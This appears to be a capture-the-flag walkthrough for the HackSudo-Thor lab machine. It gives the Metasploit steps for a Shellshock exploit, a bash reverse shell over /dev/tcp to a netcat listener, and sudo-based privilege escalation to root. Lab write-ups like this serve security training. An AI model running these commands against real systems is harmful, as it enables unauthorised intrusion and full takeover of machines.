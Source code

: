                                                    #       HackSudo-Thor WalkThrough - Faton Haxhiu

First in order to find the IP Address of the machine we run netdiscover command in our case is 10.0.2.15. 

![1 1](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/bfeed9db-c1f6-48e3-b21b-801be763bb36)

When we navigate to source good of the website we found that there may be a shellshock vulnerability (Apache server) based on cgi-bin.

![1](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/9be0c7f1-efd9-4745-b1e8-3cdcf4d9f743)

We run dirb http://10.0.2.15/cgi-bin -x .sh to find vulnerability which can have a module in metasploit.

![2](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/20e90d57-d9c1-4487-a09b-a6393957abf8)

After that we open metasploit and we use multi/http/apache_mod_cgi_bash_env_exec exploit. 
Follow these steps in metasploit:
-search shellshoc exploit 
-use  multi/http/apache_mod_cgi_bash_env_exec
-set host 'IP for victim'
-set targeturi /cgi-bin/shell.sh
-run 
We have a shell created!

![3](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/44a80511-fc02-4db3-a507-b3b899793408)

If you are not fan of shell e metasploit you can redirect shell by open a netcat connection. 
Open another window in terminal a open netcat connection in our case we use port 9001 nc -nlvp 9001

![5](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/a7d9f20b-2f47-45e7-89c1-3008554c95e9)

After you have open your netcat in shell in metasploit write: bash -c 'bash -i >& /dev/tcp/(host IP)/9001 0>&1'. This is going to open shell in your netcat window. 

![4](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/fc0322af-ce47-4e5b-838c-2442f8529586)

Now we gonna try Privilege escalation to us, first we will check what can find in shell such us useful information or scripts. We can do this by doing sudo -l we found there a scrip we can execute /home/thor/./hammer.sh
We go ahead and we execute it sudo -u /home/thor/./hammer.sh we can scripts it need code to execute this can lead us to get full-shell access this we can do by using bash as main input. 

![7](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/b69502a8-b20b-41b5-95b7-d322e451b5a0)

Running this command SHELL=/bin/bash script -q /dev/null is going to grant root access. 

We have come to the part of Root privilege escalation this can be done by just running this command: sudo service ../../bin/bash

![8](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/edd5ec0f-3679-46c3-9be7-da79f5a23b31)


Congratulations you have now full access. 


